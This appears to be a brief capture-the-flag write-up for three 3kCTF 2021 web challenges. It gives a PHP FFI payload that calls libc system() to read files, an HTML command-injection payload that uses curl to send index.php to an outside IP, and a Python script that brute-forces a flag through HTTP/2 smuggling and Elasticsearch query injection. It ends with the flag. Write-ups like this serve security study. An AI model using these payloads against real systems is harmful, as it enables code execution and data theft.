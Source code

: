 # 3kCTF 2021

## online_compiler

* FFI 
should specify libc.so.6
```php
<?php $ffi = FFI::cdef("int system(const char *command);","libc.so.6");$ffi->system("cat /f*");
```
ps: intended solution is to use session create python file

## Emoji

* path traversal `../../../../baiyecha404/xxx/solve`
* command injection
```html
<img src=""; curl 120.27.246.202 -d @index.php #">
```
## pawnshop

* http2 smuggle  so we can visit admin.py
* elasticsearch query has injection, so we need double quotes
* to bypass email validation of `email.utils`,  double quotes should be in pair 
```python
from subprocess import check_output
import string



flag = 'http2_4nd'
for j in range(1,50):
    print(j)
    for i in '_' +string.ascii_lowercase + string.digits:
        print(f'trying {i}')
        tmp = flag + i
        out = check_output(["python3", "h2csmuggler.py","-x","https://pawnshop.2021.3k.ctf.to:4443/backend/",f'http://172.30.0.6:8080/admin.py?action=lookup&mail=\'*"  AND seller:jmfffc* AND value:{tmp}*  OR value:"\'33@aa.com'])        
        if len(out.decode()) > 560:
            flag+=i
            print(flag)
            break

```

`3k{http2_4nd_email_val1dation_y0u_s41d_huh}`